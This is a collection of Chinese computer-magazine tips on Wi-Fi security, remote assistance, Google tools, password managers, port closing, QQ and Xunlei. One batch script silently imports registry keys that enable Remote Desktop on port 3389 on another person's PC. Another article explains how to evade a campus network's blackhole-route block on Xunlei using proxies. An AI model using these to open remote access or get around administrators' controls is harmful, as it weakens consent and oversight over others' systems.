| 鲜果 | http://www.xianguo.com/index.php | ★★★★☆ | ★★★★☆ | ★★★★★ | ★★★☆☆ | √ | √ | × | √ | × | √ | √ |
| 珀图网 | http://www.potu.com | ★★★★☆ | ★★★★☆ | ★★★★☆ | ★★★★☆ | √ | √ | √ | × | √ | × | √ |

# 软硬兼施，蹭网者请走开

现在网上有蹭网卡出售，甚至有“蹭网路由器”。这本没什么大错，资源共享嘛。不过因被蹭网而影响到自己的正常上网（甚至威胁到网络安全）时，那就不能睁一只眼闭一只眼了。

# 网上流行的土办法

隐藏SSID、设置MAC地址限制，这是网上较流行的两个保护无线网络的方法。但是，它们真的有用吗？其实，只要无线网络存在着通信，就不可避免地暴露自己的SSID，使用无线嗅探软件很容易得到。MAC地址绑定，由于传输数据是通过明文发送，通过对无线抓包软件分析可以得到白名单的MAC地址。而在XP系统下，修改自己网卡的MAC地址则是小菜一碟。
除上述方法外，还有WEP加密保护，如CFan第6期《蹭网，窗外飘来的免费午餐》所介绍的那样，它也是可以破解的。

# 无线网络安全“硬”道理

下面介绍从硬件方面着手来防止无线网络入侵。试想，即使有人在用无线的蹭网卡，但如果蹭网卡根本收不到你的网络信号，它还怎么侵入？所以让无线网络（WLAN）的信号在工作区内更强，在工作区之外变弱，就是一种成本低效果好的防护方法。

# 聚合“外泄”的无线信号

首先，确定WLAN的覆盖范围，做好无线路由器的选址工作，选择合适的天线类型和位置等。WLAN一般工作在2.4G或者5.8G频段。由于频点很高，因此穿墙的能力非常弱，只能穿过一般的门窗。考虑到成本和安装，常用的无线路由器配置的天线为杆状全向天线，这种天线向周围均匀发射，这是网络被蹭的重要原因之一。为了安全和上网稳定起见，在家庭或者办公室，无线路由器建议应该另外选择吸顶式室内天线，而非原来配置的天线。吸顶式天线与平常使用的全向天线不同，它在内部设计上增加了一个反射板，把辐射更多地向下反射，能够提高辐射范围的信号强度，而覆盖范围之外的信号反而会变得非常弱（因为天线方向向下）。
吸顶式天线价格很便宜，仅仅几十元。如果不想购买或者市场上不易购到，大家可以自行将原来的全向天线改造为定向天线（虽然效果不一定非常好）：在杆状天线周围做一个金属的碗状反射板，天线和路由器之间采用普通的50欧同轴电缆连接即可。

# 低些再低些，让你找不到

采用定向天线后覆盖区域内的无线信号大大增强。这时如果再适当降低无线路由器的发射功率，让覆盖区域外的蹭网卡接收不到信号，就达到了安全的目的。部分企业级的无线产品具有功率控制功能，如h3c的WA2200，可以通过命令来降低输出功率。多数默认最大发射功率为100mW（20dBm），可以通过“max-power 15”命令，将最大功率降低为15dBm。

在降低发射功率时，千万不要采用摘掉天线的做法，否则可能对AP的发射管造成损坏。如果你的路由器不支持功率调节，可以使用锡箔纸来适当包裹天线，以让覆盖范围内能够良好接收为准。

# 小知识：蹭网卡

蹭网卡就是可以接收到微弱信号的网卡，内部具有放大倍数很大的信号处理电路，外部采用定向天线后，可以接收很远距离的无线信号。也有的蹭网卡和路由器结合，可以提供更多的功能。

# 给无线硬件加些“软外套”

除了硬件保护，还可以再配合一些“软方法”。比如修改无线路由器默认的口令就比隐藏SSID更有效。另外远程访问应该关闭，而Web访问应该采用https方式。下面再推荐一个本人最爱用的方法：
关闭无线路由器的DHCP，并且设置子网掩码为255.255.255.252，同时改变路由器的默认IP。大家知道，只有具有IP的计算机才能上网，关闭DHCP和把子网变得很小后，要想获得上网的IP地址是比较难计算的。所以虽说这种方法能被抓包软件捕获，但是破解的难度还是很大的。

# 小编有话说：

目前还没有破解WPA2加密体制的方法，如果对安全系数要求较高的话，可以考虑这种方式（尤其是企业）。不过从路由器到Windows XP客户端，WPA2的配置都比较复杂，另外不少家庭使用的路由器，尚且还不支持WPA2，则可以采用本文上述的方法。

（河南/赵建超）

# 断网也不怕，远程照协助

菜鸟碰到问题时，我们这些自诩为大虾的朋友都爱远程帮助这些朋友解决故障。可是远程协助必须借助网络完成，如果对方必须重启才能完成操作，我们怎样才能完成整个协助操作？其实只要借助批处理就能让远程协助在对方电脑上延续。

# 实例：远程协助MM恢复系统

近日接到一个超级菜鸟MM的求助电话，她的电脑中毒了需要恢复系统。我之前已经在其电脑上安装了一键还原精灵，常规的恢复操作只要在操作系统启动菜单选择“一键还原”即可，可是这样简单的操作她都不会，现在只有使用远程协助帮助她完成操作。

# 第1步：在自己电脑上启动记事本输入下列代码保存为“cfan.bat”，然后通过QQ传送到对方电脑上，MM只要运行这个批处理即可启用本机的“远程桌面”（该选项默认关闭）。

```
echo Windows Registry Editor Version 5.00>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]>>3389.reg
echo "fDenyTSConnections"=dword:00000000>>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]>>3389.reg
echo "PortNumber"=dword:00000d3d>>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]>>3389.reg
echo "PortNumber"=dword:00000d3d>>3389.reg
regedit /s 3389.reg
del 3389.reg
```

# 第2步：远程协助利用上述开启的“远程桌面”，IP地址可以通过赛博IP（下载地址：http://download.cyboma.com/CyboQQSetup.exe），在自己电脑上安装后启动QQ，然后打开和MM的对话窗口，单击对话窗口右上角的表情图标，发送一个表情符号给对方后即可在下方的“宝简XX”获得对方IP。

# 第3步：在自己电脑上单击“开始→所有程序→附件→通讯→远程桌面连接”，启动远程桌面连接后按提示输入对方IP、账户名和密码即可远程连接到MM电脑上。成功连接后在对方电脑上新建一个boot.ini1，放置在c:\，并将其中的“一键还原”设置为默认启动。使用记事本新建一个批处理aa.bat在桌面，这样只要运行这个批处理即可在重启后自动恢复系统：

```
attrib -s -h c:\boot.ini
Rename c:\boot.ini boot.bak
Rename c:\boot.ini1 boot.ini
Shutdown -r
```

（文/俞木发）

# 边走边乐——谷歌地图玩乐记

谷歌地图（Google maps）除了搜索位置、路线等基本功能外，还有其他一些特殊的作用，下面就随我一起到谷歌地图里“玩”一趟。

# 不上网也能查的谷歌地图

谷歌地图需要上网才能浏览，可是要上不了网怎么办？其实可以事先将谷歌地图下载到本机，以便随时查询。Google Map Buddy（以下简称GMB，下载地址：http://www.augmentedrealitysoftware.co.uk/progs/GMB.zip）可以实现此梦想。
GMB是一款绿色软件，下载解压后，双击其中的Google Map Buddy.exe即可运行。点击软件工具栏窗口中的Goto Google.maps（前往谷歌地图）按钮，在弹出的窗口中点击Go按钮。
在显示的谷歌地图上搜索到需要的位置后，点击Select Area（选择区域）按钮，在需要下载的地图区域画一个框，等出现黑线方框后表示选取完成。如果不满意，可以点击New Location（新位置）按钮来重新选取。接着在工具栏窗口的Selection Details（选择细节）下拉菜单中选择地图的放大倍率，尽量选大一些，按我的经验，在12左右比较好，这样下载的地图细节会很清楚。

接下来点击下面的Create Map Image（创建地图图像）按钮，在弹出的窗口中输入下载地图保存的文件名，稍等一会等地图全部下载回来后会弹出一个确认对话框，提示是否删除零碎图片，点击“是”按钮就完成地图的下载了。

# 随身携带的旅游百事通

使用智能手机的朋友，可以打开 http://www.google.cn/mobile/default/maps/index.html，输入自己的手机号，免费获得手机地图安装软件（支持Windows Mobile和Symbian S60）。在手机中安装并运行谷歌手机地图，按下“O”键即可定位出你的大概位置，如稍有误差可通过方向键移动（需开通上网服务）。
当需要查看周边有什么餐饮、购物或者住宿时，只要在该点上点击确认键，在显示的菜单中选择“搜索周边”搜索即可，或按地图提供的热门类别来搜索。搜索的结果会显示在手机中的地图上，通过方向键移动过去，再点击一下确认键，在弹出的菜单中选择“到这里去”，这样手机地图就会自动计算公交乘车路线和驾车路线等。

# 小提示：

★每次看见那些如超级玛莉、大金刚、魂斗罗、洛克人、俄罗斯方块等的经典游戏，总会回想起那段小时候玩游戏的日子，现在这些游戏想玩都比较难找了，其实我们可以在线来玩这些游戏，在Google Chrome浏览器中打开 http://benfirschman.com/projects/jsnes/，选择想玩的游戏就可以啦。
★谷歌地图上也能玩大富翁了。首先打开MonopolyCityStreets（http://www.monopolycitystreets.com）首页，点击Play（开始游戏），选择English（暂且还不支持中文），进入自己想去的城市地图，就可以开始你的地产大亨之梦了。游戏初始资金是300万，找到适合的地产时便可以出价购买，以及盖自己的摩天大楼来赚取租金了。

（文/云端漫步）

## 善用零碎时间，上班路上手机学英语

如今是信息社会，如果不能掌握英语，在信息搜集方面会有很大局限。但是平时工作忙，怎样才能抽出时间学英语呢？时间就像牛奶，挤挤总会有的。比如上班路上，乘车时就可以利用随身带的手机抓紧时间学一会。

### 谷歌日历，英语一天学一句

谷歌日历有短信提醒功能，善用此功能，让谷歌定时发送英语短信，就可以供我们在路上学习了。首先进入谷歌日历频道（http://www.google.com/calendar），然后用自己的谷歌账号登录。还没有谷歌账号的朋友，可点击下方“创建账户”按钮注册一个。

接着在“其他日历”中，填写“b4up8g4hseanq24dgccfi5gjl0@group.calendar.google.com”（不含引号）并按回车键，即可添加“麦麦每日英语”日历。添加后点击下方的“设置”，在设置页面中，单击麦麦每日英语右侧的“通知”链接，再单击“将手机设置成可接收通知”，然后按提示输入自己的手机号码，并输入获取的验证代码，点击“完成设置→保存”。返回麦麦每日英语的通知页面后，点击“添加提醒”，并将提醒方式设置为SMS（即短信）就可以了。这样，每天的11点半就可以收到英语学习短信了。

### 实例扩展

毕竟麦麦每日英语是一个公用日历，内容无法由我们自己来掌控。其实我们自己也可以建立类似的英语学习日历。如果不希望原来的日历被打乱，可以新建一个专用于学习英语的日历。在左侧“我的日历”下点击“创建”，在新打开的界面中将日历名设置为“学英语”（名称可随意），再点击“创建日历”即可。

接着就可以选择某天某个时间的单元格点击，将弹出窗口，选择新建的日历，再点击其中的“修改活动详细信息”链接，内容中填写要学习的英语内容（如：“Constant dropping wears the stone.（滴水穿石）”），时间可按自己的需要设置，如设置为上午8点，一般此时正在上班的路上。最后单击下方的“添加提醒”，将提醒方式设置为SMS，保存设置。同样方法为其他的日期设置短信提醒，以后谷歌就会定时发送你所设置的内容了。

### 小提示：

- ★自己设置每天的英语学习内容，是不是过于繁琐了？没关系，你可以在日历的设置页面中，点击相应日历右侧的“共享此日历”，与其他多个好友一起来共享、维护学习内容，就既省力又能增进大家的交流了。
- ★本文实际教给大家的是如何使用谷歌日历的提醒功能。不一定是英语短信，比如重要的日程安排等事务，都可以应用此功能。

### 不认识的单词找词霸

路上学英语，最大的难题就是查单词。随身携带厚厚的英汉词典显然很不方便。那遇到不认识的单词怎么查呢？你如果用的是智能手机，那就好办了。首先打开网页http://mobile.iciba.com/powerword/download01.html，点击“本地下下载”，再选择你的手机型号下载相应文件，然后传到手机中安装即可使用。当然，更方便的方法是按网页上的提示发送特定短信到指定的号码，即可获取包含链接的短信，在手机中点击下载即可。

非智能手机怎么办？没关系，如果能访问网络，可打开网页http://g.cn，点选“词霸”，然后输入单词就可以翻译了。

(文/流言)

## 嘿，想不想知道谁在看你的博客？

此刻正有多少人在看你的博客？他们都在地球的何处？who's among.us（http://whos.amung.us/）能告诉你答案。打开http://whos.amung.us/，在“立即开始”处复制黄色文本框中的代码。如果你的博客不支持Javascript，可点击Non Javascript（非Javascript）使用纯HTML语言，所有网站都能支持。

然后进入你的博客，以CFan博墅为例（http://fly2spring.blog.cfan.com.cn/），登录后进入空间管理，选择“模板→我的空白模块”，将代码粘贴到模块1中，然后点击下面的“提交保存”。再在“模板→我的空间DIY”中将“我的模块1”添加进主页，保存改变后再打开我的博墅，即可看到一个显著的博客统计按钮，上面即时显示当前在线浏览人数。点击此按钮，将打开一个页面，这里除显示当前在线人数外，还会显示过去24小时的在线情况。尤其有意思的是，它会以红五星的方式，在地图上标注出当前访客正在地球的哪儿位置（光标指向红五星，会弹出文字提示）。

点击上方的“地图”，将调出卫星地图并显示位置标志，更具有立体感。点击“历史”则可以查阅一个月来你博客的流量走势图，这对你发展自己的博客非常有帮助。

### 实例拓展：QQ空间也用博客统计

QQ空间不能直接添加who's among.us代码，可提取代码中的图片位置和链接，再借助QQ自定义模块实现。登录自己的QQ空间，点击“自定义模块→新建模块”，选择“大图模块”，图片地址设置为http://whos.amung.us/widget/yxha4j8pm3nr.png，图片链接设置为http://whos.amung.us/stats/yxha4j8pm3nr/，图片尺寸宽81，高29。确定后添加该模块（可以手工调动它在QQ空间的位置），保存改变返回QQ首页，即可看到who's among.us博客统计图标了。

(文/流言)

## 嘘，把你的密码锁进保险箱

每个人都有很多账户和密码，如电子邮件、QQ、MSN、论坛、博客等，甚至生活中的银行卡、医保卡等也都有密码，可以说在我们的生活中密码已无处不在。如此多的账户和密码，我们如何记住？记在日记本上？万一被别人看到就麻烦了。还是找更安全的地方把这些密码保护起来吧。

### 网络上的密码保险箱

有不少网站就提供密码管理和保护功能。我要特别推荐的是Clipperz，此网站比较干净，没有广告，更重要的是它是源代码公开的，相对较为安全可信。

### ★小知识：为什么要相信Clipperz？

- Clipperz在线密码管理的文件保存在服务器上，也可以本地备份。它属于双因子认证，口令握在你自己手中。是不是还有一点不放心，怕网站管理员泄漏你的密码？它的源代码是公开的（http://www.clipperz.com/open_source），在整个过程中没有人机参与。加密过程可靠，通信过程采用HTTPS协议，本地登录可以用密码也可以采取短语形式，支持一次一密等等。
- 警告：像银行卡之类涉及重要财物信息的密码，请勿使用网络存储，这只会多增加更多风险。

首先，打开http://www.clipperz.com/网站，点击右上方框内的“简体中文”切换到中文界面。然后单击“创建一个新账户”，在弹出的忠告窗口中点击“确定”，然后按提示注册一个账户。成功后用自己的账户登录。接下来点击上方“添加新密码卡片”，Clipperz提供了很多密码卡片模板，如网站密码、银行账户、信用卡、通讯录等。按需要选择一个（如网站密码），然后点击“创建”，打开界面，分别填写网址（Web address），网站用户名或邮箱（Username or email），密码（Password），再点击“保存”就可以了。也可以点击“添加新区域”继续添加。

密码的使用非常简单，任何时间登录自己的Clipperz账户，单击打开“密码卡片”，点击卡片中的网址打开相应网站，再回到Clipperz中点击相应网址下的小星星，右键复制密码，再回到相应网站按Ctrl+V键粘贴使用即可。

如果你担心网站的数据被破坏或者在没有网络的环境下无法查看密码，可以切换到“资料”选项卡，点击“离线拷贝”下的“下载”链接，可以将资料下载到本机上，其实也是一个网页，在浏览器中打开，其他和在线操作一样。需要注意的是，Clipperz的账户和密码丢失后，是无法找回的，所以一定要记好它们。另外，最好还是保存一个离线的版本，以防万一。

### KeePass——密码管理大管家

一些非常重要的密码保存到网上，总觉得不放心。这类密码还是保存在本机上比较好一些（当然本机上的资料也可能被黑客窃取，这是另外的话题了）。KeePass（下载地址：http://www.onlinedown.net/soft/33545.htm）就是一款不错的本地密码管理软件，它不但可以保存各种密码，而且能够实现自动登录。

使用KeePass，首先要建立一个密码数据库文件。单击“File→New”（文件→新建），设置文件名及位置，点击“保存”，再按提示设置密码数据库的密码。完成后，单击“Edit→Add entry”（编辑→添加项目）就可以添加密码项目了。在使用时，用密码打开数据库，右键可以打开“登录地址”，再次回到密码栏处右键“复制密码”，即可进行密码复制。需要提醒大家的是，剪贴板将在12秒后清空，复制动作一定要快。

### 小提示：

- ★办公室白领还可以使用Excel管理和保护密码。启动Excel（以2007为例），新建一个表格，在工作簿中输入相应用户名、密码、网址信息等资料。完成后，保存文件，在另存为对话框中，单击其上的“工具→常规选项”，在打开的对话框中为文档添加打开权限密码保护就可以了。
- ★Excel的密码容易被破解，所以Excel文件存放也是个问题。有人就想到将这个密码文件放到闪盘中，随身携带。保存重要文件的闪盘，建议使用带有安全功能的闪盘。设有安全芯片的闪盘中，需要输入正确密码才能打开。当然，闪盘也容易丢失，虽然是加过密，但并不能保证不能被破解。所以上面介绍的方法各有优缺点，大家根据实际情况选用。

### 网络大补贴：

网上还有其他一些密码管理的网站，下面再给大家介绍几个：

- ★密码盒子
说明：不支持安全登录，使用比较简单，目前处于测试阶段
网址：www.passbox.cn
- ★豌豆网
说明：支持安全登录，支持一键登录，使用比较简单
网址：www.onedoor.cn
- ★马背网
说明：支持安全模式登录的在线密码管理网站，在本地完成数据加密，国内最优秀的在线密码管理网站
网址：www.passbay.com

(河南/赵建超)

## 我家大门常关着，黑客进不来

理论上来说，任何联网的电脑都有被黑客入侵的可能。我们能做的，要么不联网，要么就采取各种措施增加黑客入侵的难度。保护网络的一个常用方法，就是关闭一些不必要的端口，尽可能减少黑客入侵的机会。不过对于菜鸟来说，手工关闭端口的操作非常复杂，通过软件工具则能轻松搞定。

Windows Worms Doors Cleaner

软件大小：51 KB
软件类别：免费软件
适应平台：Windows 2000/XP/2003
下载地址：http://work.newhua.com/cfan/200921/wwdc.rar

下载解压后，直接双击wwdc.exe即可运行Windows Worms Doors Cleaner（以下简称WWDC）。红色和黄色显示表示危险的程度，绿色的则表示已经关闭。点击“Disable DCOM”可关闭135端口，点击“Close 445”则关闭445端口，点“Close 137、139”则关闭137、138、139端口。每个按钮右侧还有一个链接，点击可以查看微软官方对对应端口所作的解释。点击窗口右侧的“>>”按钮，还可以快速查看当前系统都有哪些端口是打开的。

### 实例扩展：手工封闭端口

如果你的电脑只是用来上网，不需要访问局域网中的共享，也不需要提供文件和打印机共享，那么很多端口是可以关闭的。下面介绍不用软件，手工关闭常见高危端口的方法（初学者慎试）：

1.  TCP135端口：在运行对话框中执行“dcomcnfg”（不含引号，下同）命令，在打开的窗口中点选“组件服务”，双击打开“计算机”，再右击“我的电脑”选择“属性”，切换到“默认属性”选项卡，取消对“在此计算机上启用分布式COM”的选择；切换到“默认协议”选项卡，删除其中“面向连接的TCP/IP”，确定即可。
2.  TCP445、UDP445端口：在注册表中定位到[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetBT\Parameters]，新建名为“SMBDeviceEnabled”的DWORD值，并将其设置为0即可。
3.  TCP139、UDP137、UDP138端口：选择网卡的本地连接，打开TCP/IP的“属性”，选择“高级”，切换到“WINS”选项卡，再选择“禁用TCP/IP上的NetBIOS”就可以了。

执行完以上3项后，电脑就不能访问局域网中的共享了，就算你的电脑开了共享，别人也无法访问，常规入侵软件会提示RPC服务器不可用，很多扫描软件也无法通过扫描得到计算机信息。如果你的电脑需要访问局域网中的共享，而不需要提供共享服务，那就只执行1. 2项即可。

## 惹不起我躲，关闭好友恶评

自从腾讯在QQ2009中加上“好友印象”功能后，一时间乱七八糟的“好友印象”满天飞，有些评语更是令我们难堪。当然，进入自己的“好友印象”，点选某个恶评，再点击其上的“X”关闭按钮，可以删除它们。不过这只是临时删除，好友们还可以继续恶搞。

惹不起就躲，下面的方法可以彻底封堵恶评之门：首先去http://im.qq.com下载安装最新版的QQ。登录后，单击QQ主面板上的头像，打开个人设置页面，点击左侧“好友印象”，单击右上角“设置权限”，在弹出的对话框中，点击去掉两个选项中的对钩。最后单击“确认”即可（见图）。当好友们还想给你加印象时，就会看到“他已禁止大家对其进行描述”的提示，没办法再加恶评了。

（文/Grassheling·Green）

## 你有好消息！请到邮箱收

QQ信箱中可以订阅RSS，可并不是每个人都用QQ信箱的。对于普通邮箱能不能也订阅RSS呢？答案是肯定的，我们只要登录一个网站就能搞定。

第一步：登录http://www.feedmyinbox.com/，在Enter a website URL（输入网站地址）中填写RSS频道的地址，在Enter your email address（输入你的邮箱地址）中输入你的电子邮箱，最后单击Submit（提交）按钮，网站会自动向注册邮箱发送一份订阅确认邮件。

第二步：进入自己的信箱，打开FeedMyInbox发来的主题为Confirm your feed（验证）的邮件，网址复制粘贴到浏览器的地址栏，按回车键后确认订阅。这样每当RSS频道更新后就会发送电子邮件到邮箱中，我们可以像在RSS阅读器中一样阅读最新资讯了。

（江苏/张华）

## 又快又好！QQ2010来了……

QQ2009 SP4的新鲜劲没过，QQ2010接踵而来，真让人目不暇接，赶紧下载尝尝鲜（下载地址：http://dl_dir.qq.com/qqfile/qq/QQ2009/QQ2010Beta_trial.exe）。

能会发现，以前在多系统中安装QQ的方法都已经行不通了，安装时要么提示有权限问题，要么会出现聊天记录错乱，根本无法很好地共享QQ2009/QQ2010。经过摸索，我发现使用QQ2009/QQ2010的“个人文件夹”功能，可以实现多系统下完美共享QQ。这里以Windows XP和Windows 7为例，在安装时要从最低版本的操作系统开始。

### 实例1：让你从此看清我

QQ可以将个人照片作为自己的头像，可不管图片多大，最终都会缩小成一个40×40像素的小图标，很难看清。QQ2010中的头像则可以放大到100×100像素。

单击QQ面板上的“主菜单→系统设置→个人设置”，出现对话框，单击“更换头像”，再单击“本地上传”，选择打开一个清晰度较高的照片并进行调整，最后单击“确定”即可。对于会员来说，选择“保存高清图片”，这样好友能看到更加清晰的头像，以后找MM可就方便了。

### 实例2：QQ业务，不说的秘密

## 跨越暗沟，突破新型迅雷封锁

迅雷下载速度快，但是占用的网络带宽也多，因此成为各个高校的头号封杀对象。继封锁迅雷端口、DNS解析等方法失效后，不少高校采取了另外一种非常隐蔽的封杀方法。具体表现为：大多数资源迅雷下载速度极慢，使用Web迅雷也是如此，资源和连接只有一个或者干脆连接不上，很多时候使用迅雷下载还不如直接下载速度快。这是一种欺骗性极强的封杀方法！由于能够下载，很多朋友以为出现这种问题是由于自身的原因或者校园网速度慢造成的，根本怀疑不到是封杀迅雷所造成的。我所在的高校也采用了这种方法，分析原因发现，原来是学校网络中心采取了一种黑洞路由的方法封杀迅雷下载。

### 小知识：黑洞路由

迅雷下载属于P2P下载，用户必须连接到迅雷的资源服务器（hub4u.sandai.net/hub4t.sandai.net）上才能得到更多的资源地址，否则就只有一个资源下载。可以控制对hub4u.sandai.net(UDP)的访问来有效控制迅雷的流量。方法是针对这个IP做一条黑洞路由“ip route 58.254.134.201/32 null0”（教育网IP），意思是把所有教育网通往迅雷资源服务器的流量扔掉。如果进一步对TCP流量进行限制，那么效果更好。这种方式不会影响迅雷用户的正常使用，但是又可以明显降低这些用户的流量。

### 突破封锁的思路

迅雷之所以下载速度快，就是因为要从多个资源同时进行下载。从上面的小知识可以知道，由于学校网络中心封锁了迅雷的资源服务器，造成无法获取多个资源，所以如能设法获取资源，问题就解决了。

### 曲线救援，解决被锁的迅雷

一般情况下，迅雷连接其他站点时是直接联系到目的站点，然后由目的站点服务器把信息传送回来。由于封杀了迅雷资源服务器，所以要采用代理进行访问。

### 第1步：使用代理访问资源服务器

常用的代理搜索软件有代理猎手、花刺验证代理等。为了防止网络中心其他的封锁措施，而且迅雷自身的自定义代理服务器配置也比较麻烦，所以建议大家在IE中进行配置：单击“工具→Internet选项→连接→局域网设置”，填入相应的代理服务器地址和端口（见图1）。

### 第2步：配置迅雷的代理设置

启动迅雷，单击“配置→代理设置”，选择使用IE代理服务器（见图2）。选择之后，迅雷的连接就自动使用IE中设置的代理服务器进行寻找和连接了。需要注意的是，设置代理服务器之后，一定要打开一个常用网站，看看网页是否正常显示，因为不少代理服务器不太稳定。

### 第3步：迅雷下载

这里以下载《非诚勿扰》为例，首先搜索到《非诚勿扰》的迅雷资源，单击选择的资源启动迅雷即可下载。由于使用的代理服务器，因此对于有些学校使用DNS封锁迅雷页面也同时进行了突破，所以能够正常打开下载页面。此时从迅雷的工作页面可以看到，影片的资源数字不断上涨，同时下载速度也慢慢的提升。但是提升到一定程度后速度停滞不前甚至下降了，这是什么原因呢？

原来，因为配置迅雷使用代理服务器，迅雷会自觉以代理进行下载（除非位于同一个局域网内），而代理会有速度限制，所以下载速度会很慢。这时可通过下面的方法解决：由于此时已经找到了资源的地址，停掉迅雷的代理服务器设置即可实现正常的迅雷下载，单击“配置→代理设置”，选择不使用代理服务器即可。本例中，停止代理之后下载效果如图3所示。

### 注意：

1.  不同的资源下载速度不一样，如图3所示，如果你选择的资源比较慢，不要误以为没有突破封锁。
2.  下载过程中如果暂停下载，需要重新使用代理寻找资源，否则无法找到更多的资源，此时资源数目为1个。

至此，已经完全突破黑洞路由的封锁，完成了迅雷下载的所有工作。除了这种方法，还有一些其他方法可以进行突破，例如在迅雷自身使用代理，然后通过遨游进行下载（傲游浏览器疑似迅雷内核）等。
(河南/赵建超)

## 一箭三雕，告诉你迅雷不为人知的“漏洞”

CFan上曾经介绍过非会员用户如何去掉迅雷广告的技巧，只是作者给出的方法太复杂，操作起来比较繁琐。其实，新版迅雷中有一个不大不小的“漏洞”，让非会员用户也能轻松移走迅雷的广告、工具栏等，而且高兴的话，随时让它们重新现身。
这里以5.9.8.1090版迅雷为例（下载地址：http://dl.xunlei.com/），打开迅雷安装文件夹（本例为：E:\Program Files\Thunder Network\Thunder），其中有一个名为userdata的文件夹快捷方式，双击此快捷方式进入真实的文件夹位置，其中有一个名为Profiles的文件夹，进入其子文件夹Program，Program文件夹中有一个名为addins.xml的文件，它实际上就是迅雷资讯、顶部广告以及右下角弹出窗口的控制开关。删除它，然后再打开迅雷，可以看到：迅雷资讯、顶部广告以及右下角弹出窗口统统不见了。一箭三雕，关键是迅雷的启动速度明显快很多。

此文件夹中，还有一个plugin.xml文件，删除后再打开迅雷，则主界面左下角的那些系统漏洞修复、软件升级等一系列工具也就凭空蒸发了！现在，看看“整容”后的迅雷新面孔，一下子悦目多了。
不过安全起见，建议还是在Program目录下新建备份文件夹，将addins.xml、plugin.xml文件移过去。需要恢复的时候，再把它们移回原位置就可以了。
(陕西/贺拴运)

## 好友、联系人呼叫转移

同班MM申请了新的QQ号，想把原来的好友都加到新号上，无奈好友人太多，于是向我求救。问问有没有简便方法，我把简便的方法告诉了她，又搜集了一些MSN、电子邮箱、飞信联系人和好友的转移的方法，在这里给大家分享一下。

### QQ 好友篇

在QQ安装目录中可以找到QQ号码文件夹，都是以曾在你的QQ程序里登录过的QQ号命名的。先找到旧QQ号码文件夹，打开之后找到user.db文件，进行复制。然后登录你新的QQ号，再退出来。打开新的QQ号码文件夹，用旧号的user.db文件代替新号里的user.db文件（注意先备份此文件）。接着登录你的新号，你以前的好友就会出现在新QQ号的好友列表中了。不过任务还没有完成，如果就此停止，你会永远看不到好友上线。我们需要先把好友拖到“陌生人”列表中，然后再拖回到“好友列表”中，这样，QQ好友的转移就完成了。

### MSN 联系人篇

申请了新的MSN，想把联系人都转移到新号上。首先打开MSN主界面，点击右上角的小箭头，选择“联系人”，再选择“保存即时联系人”，将MSN上的好友保存为一个.ctt文件。接着登陆新的MSN，仍然点击右上侧的小箭头，选择“联系人”，再选择“导入即时消息联系人”选项，将之前保存的.ctt文件导入。MSN联系人的转移就大功告成了。

### E-mail 联系人篇

这里以QQ邮箱为例。首先登录你的QQ邮箱，点击左上方的“联系人”，在界面右侧的“工具箱”选项下选择“导入其他邮箱联系人”，然后输入邮箱账号和密码，点击“立即导入”，这样，其他邮箱的联系人就出现在你的QQ邮箱联系人列表中了。

### 飞信篇

手机换号了，想把原来号里的联系人转移到新号上。首先把所有好友导出，选择“菜单→好友→导出好友列表”，点击“下一步”，选择“浏览”，把csv文件保存在电脑中。接着上新的飞信号，选择“菜单→好友→导入好友列表”，找到刚才的csv文件点击“下一步”即可。

### 小提示：

上面的方法主要针对非会员的QQ用户，如果是QQ会员的话则直接使用“好友克隆”的功能即可：将新QQ号注册为会员（或者已经是会员），在QQ面板上点击“主菜单→QQ会员→会员功能→好友克隆”，按提示输入被克隆的旧QQ号及密码，即可将旧QQ号上的好友合并到新QQ号中。
(河北/张晓涛)

# 飞信QQ比翼双飞——自己捆绑IM软件

飞信和QQ是大家手机上最常用的IM软件了，为了方便和好友联系，很多朋友都想同时在自己手机上开启它们。不过对于大多数非智能手机用户来说，我们只能运行其中一个软件。因为非智能手机只允许一个软件运行在前台，这样如果已经运行QQ，我们就无法再启动飞信了。由于大多数非智能手机都支持JAR格式软件，我们可以将两个JAR软件捆绑在一起，让两者同时运行。

★ JAR（Java Archive File），是Java的一种文档格式，它是许多信息经过封装后形成的捆绑体（也就是一个压缩文件，可以使用WinRAR打开）。为了便于手机扩展，很多非智能手机都支持JAR格式软件安装，大部分手机自带的游戏就是JAR格式的。
★ 一般在手机参数中如果有类似“Java扩展，支持Java MIDP 2 CLDC 1.1”的描述，则表示你的手机可以安装JAR软件。通过捆绑方法运行多个JAR程序，近两三年来各大品牌推出的中低端机型大多可以使用，如诺基亚s40系列的7600，7200，7250，7210等机型，索爱K系列的K700c，K750c，摩托罗拉E系列的e398等。

## 准备工作：

1.  登录飞信（http://www.fetion.com.cn/download/）和QQ官网（http://mobile.qq.com/download.jsp）下载适合自己手机的JAR软件。
2.  到华军下载所需软件JavaMagic和Multime，将上述软件全部放置在d:\备用（本文涉及的一些软件，也可从http://work.newhua.com/cfan/200921/jarsoft.rar下载获取）。

第1步：将JAR文件打开方式关联到WinRAR，在WinRAR中打开cmcc.jar（飞信软件名），将其中的“META-INF\MANIFEST.MF”解压到d:\。用记事本打开“d:\MANIFEST.MF”，把其中的中文字串如“中国移动通信”之类全部删除（或使用拼音代替），因为很多手机不支持JAR软件中的中文。
第2步：返回WinRAR窗口，单击“命令→添加文件到压缩文件中”，用修改过的“d:\MANIFEST.MF”替换JAR中的同名文件。QQ软件的修改操作同上。
第3步：运行下载到的JavaMagic。单击“设置”，在打开的设置窗口根据自己的手机设定参数，比如诺基亚2310屏幕为96×68（单位：像素），在此即可将屏幕分辨率设置为这个数值，其他参数请根据自己的手机进行设置（见图1）。
第4步：设置完成后返回程序窗口，分别把QQ.jar和cmcc.jar拖到程序窗口处理即可。处理完成后会生成新的JAR和JAD文件。
第5步：启动下载到的Multime，首次运行需要选定mm.jar（定位到Multime安装目录下的mm.jar文件即可）。接着在程序主窗口，单击“保存路径”下的“浏览”按钮，为合并后的文件设置一个文件名。最后单击“添加”，依次导入上述处理过的两个JAR软件，单击“合成”按钮（见图2）。
